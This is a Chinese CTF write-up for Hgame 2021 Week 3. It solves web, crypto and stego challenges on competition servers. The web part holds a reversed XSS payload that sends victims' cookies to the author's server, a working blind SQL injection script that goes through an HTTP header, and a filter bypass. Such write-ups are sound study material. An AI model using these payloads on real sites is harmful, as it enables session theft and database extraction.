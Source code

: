 ```yaml
---
title: Hgame-Week3
date: 2021-03-03 22:07:03
author: sec
---
```

@[TOC](目录)
# Web
## LazyDogR4U
1. 地址：http://718a753f92.lazy.r4u.top 
2. 提示：懒狗R4u把Flag藏起来了，但由于他是懒狗，所以flag藏的很不安全。

进入页面之后是登录页面，用子域名爆破工具进行爆破。发现有www.zip.
下载之后分析源代码。发现有flag.php。分析代码得出 $_SESSION['username'] === 'admin'就会得到flag。
然后再lazy页面代码中分析得到lazy.php会将get和post传入的变量注册为普通的变量。所以我们可以将_SESSION['username'] = 'admin'。
![在这里插入图片描述](img/20210303192206709.png)
在这里我们可以看到过滤了SESSION所以我们可以考虑双写绕过
![在这里插入图片描述](img/2021030319225689.png)
得到flag`hgame{r4U_1s-a_lAzy_DOg}`

## Post to zuckonit 
1. 地址：http://zuckonit.0727.site:7654
2. 提示：d1gg12 新学了HTML，一起来看看他写的在线博客吧！

在这里有提示用xss所以我们测试。可以知道script会被替换成div。img会被反转。iframe和< >结合的话就会被替代为空。所以我们想到onerror和onmouseover等.在页面上有个md5在这里可以用md5截断![在这里插入图片描述](img/20210303210730790.png)
自己在服务器搭建一个接受cookie的平台然后输入payload:`>;eikooc.tnemucod+'=eikooc?php.xedni/xxx.xxx.xxx.xx//'=onitacol.tnemucod=rorreno x=crs gmi<`
这里xx表示的是搭建的服务器的地址。
![在这里插入图片描述](img/20210303214203576.png)
发包之后看到提交上去了去查看接受到的cookie
![在这里插入图片描述](img/20210303214258386.png)
![在这里插入图片描述](img/20210303214329949.png)
得到flag`hgame{X5s_t0_GEt_@dm1n's_cOokies.}`
## 200OK!!
1. 地址：https://200ok.liki.link 
2. 提示：hint: status 字段会有什么坏心思呢?
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;hint: 这些字符串存在哪里呢？变量？还是...？
根据这里提示去找status发现在header里面有直觉这里是sql注入。测试发现是sql盲注、
```python
import requests
import string
dict = string.ascii_letters+string.digits+string.punctuation
url = 'https://200ok.liki.link/server.php'
res = ''
# sql = "database()"
# sql = "Select/**/group_concat(TABLE_NAME)/**/From/**/information_schema.TABLES/**/Where/**/TABLE_SCHEMA=database()"
# sql = "Select/**/group_concat(COLUMN_NAME)/**/From/**/information_schema.COLUMNS/**/Where/**/TABLE_NAME='f1111111144444444444g'"
sql = "Select/**/ffffff14gggggg/**/FrOm/**/week2sqli.f1111111144444444444g"
show = "HTTP 200 OK"
payload = "1'/**/or/**/(ascii(substr((" + sql + "),{},1))={})#"
for i in range(1, 100):
    for j in dict:
        new_payload = payload.format(i,ord(j))
        #
        # print(new_payload)
        new_url = url
        header = {
            'Status': new_payload,
        }

        r = requests.post(url=new_url, headers=header)
        # print(str(r.content, encoding='utf-8'))
        if show in str(r.content, encoding='utf-8'):
            res += j
            print(res)
            break
    print(i)
```
得出flag`hgame{Con9raTu1ati0n5+yoU_FXXK~Up-tH3,5Q1!!=)}`

## Liki的生日礼物
1. 地址：https://birthday.liki.link 
2. 提示：Liki生日快要到了，她想要一台switch，你能帮帮她么？

进去之后先检查sql注入，发现没地方可以注入。然后注册进去让买。可以让burp抓包然后send 到intuder模块然后开启多线程进行重复发包，多试几次就可以买到50+的兑换券了
![在这里插入图片描述](img/20210303220531247.png)

得到flag`hgame{L0ck_1s_TH3_S0lllut!on!!!}`
# Crypto
## signin
1. 地址：https://mod.liki.link
2. 提示：签到题 233

```p
from libnum import *
from Crypto.Util import number
from secret import FLAG

m = s2n(FLAG)
a = number.getPrime(1024)
p = number.getPrime(1024)
c = a ** p * m % p

print("a = {}".format(a))
print("p = {}".format(p))
print("c = {}".format(c))
a = 133800818162358736992374407553815182228488320508220654286327870297868184492699847925804382542416591910070691763215918480400720616407746533208690009572595784791832147752033435099327401465698311078997970947676919942736369397181375921869736090365869156590933843547245213704537799815707178682105522119037494020599
p = 120894245626883861347968917133900720079363940958900018146698757983649653418564902473518247317389931671844909656283953422855696684516767266662806908998131651235520933402859416886063085666095640169577908264209560019304373427043854623057741758991047610738102545319432816388433078197674543228425601535372867767329
c = 51020503625607390970421103467796441343854929458032486420488774797668335975844843245560944854466377460111533655037060084200188521495576077908697697118239112051044284862439956380760960341670222564282181963790221712713224991234292531548023895313467198470030734121620566514255384546910159989173024267460162318754
```
看到题之后就想到和费小马定理非常的相似
![在这里插入图片描述](img/20210304112040998.png)
a**p*m%p=c 可以化简成为 (a**(p-1)%p*(a*m)%p)%p=c 再化简成为 (a*m)%p=c 所以可以根据逆元求解
```p
import gmpy2
a = 133800818162358736992374407553815182228488320508220654286327870297868184492699847925804382542416591910070691763215918480400720616407746533208690009572595784791832147752033435099327401465698311078997970947676919942736369397181375921869736090365869156590933843547245213704537799815707178682105522119037494020599
p = 120894245626883861347968917133900720079363940958900018146698757983649653418564902473518247317389931671844909656283953422855696684516767266662806908998131651235520933402859416886063085666095640169577908264209560019304373427043854623057741758991047610738102545319432816388433078197674543228425601535372867767329
c = 51020503625607390970421103467796441343854929458032486420488774797668335975844843245560944854466377460111533655037060084200188521495576077908697697118239112051044284862439956380760960341670222564282181963790221712713224991234292531548023895313467198470030734121620566514255384546910159989173024267460162318754
ina = gmpy2.invert(a,p)
m = c * ina % p
print(hex(m))
```
转字符串就出来flag了`hgame{M0du1@r_m4th+1s^th3~ba5is-Of=cRypt0!!}`
## gcd or more?
1. 地址： https://more.liki.link
2. 提示：GCD...?

```p
from libnum import *
from secret import FLAG

p = 85228565021128901853314934583129083441989045225022541298550570449389839609019
q = 111614714641364911312915294479850549131835378046002423977989457843071188836271
n = p * q

cipher = pow(s2n(FLAG), 2, n)
print(cipher)
7665003682830666456193894491015989641647854826647177873141984107202099081475984827806007287830472899616818080907276606744467453445908923054975393623509539
```
这个题是Rabin算法，在网上找到的大佬的解密方法放到下面
![在这里插入图片描述](img/20210304133916185.png)
```python
import gmpy2
c = 7665003682830666456193894491015989641647854826647177873141984107202099081475984827806007287830472899616818080907276606744467453445908923054975393623509539
p = 85228565021128901853314934583129083441989045225022541298550570449389839609019
q = 111614714641364911312915294479850549131835378046002423977989457843071188836271
n = p*q
mp = pow(c,(p+1)//4,p)
mq = pow(c,(q+1)//4,q)
yp = gmpy2.invert(p,q)
yq = gmpy2.invert(q,p)
print (yq*q+yp*p)
print n
r = (mq*yp*p+mp*yq*q)%n
s = (mq*yp*p-mp*yq*q)%n
print hex(n-r)
print hex(r)
print hex(s)
print hex(n-s)
```
发现最后一组为flag
flag为`hgame{3xgCd~i5_re4l1y+e@sy^r1ght?}`
## WhitegiveRSA
1. 提示：N = 882564595536224140639625987659416029426239230804614613279163
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;e = 65537
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;c = 747831491353896780365654517748216624798517769637260742155527

简单的RSA，先去[http://factordb.com/ ](http://factordb.com/)分解N得到p和q然后根据p和q求d最后再根据c，d，n得到m
```p
p = 857504083339712752489993810777
q = 1029224947942998075080348647219
n = p * q
e = 65537
c = 747831491353896780365654517748216624798517769637260742155527
def egcd(a, b):
    if a == 0:
      return (b, 0, 1)
    else:
      g, y, x = egcd(b % a, a)
      return (g, x - (b // a) * y, y)
def modinv(a, m):
    g, x, y = egcd(a, m)
    if g != 1:
      raise Exception('modular inverse does not exist')
    else:
      return x % m
d=modinv(e,(p-1)*(q-1))
m = pow(c,d,n)
print(hex(m))
```
flag为`hgame{w0w~yOU_kNoW+R5@!}`
# Misc
## tools
分别有几个解密工具都在压缩包的名字上
第一个F5 ，第二个Steghide，第三个Outguess，第四个Outguess。
分别解出来是四个二维码的一角，用PS将照片进行拼接就可以得到flag
![在这里插入图片描述](img/2021030415322469.png)
flag`hgame{Taowa_is_N0T_g00d_but_T001s_is_Useful}`
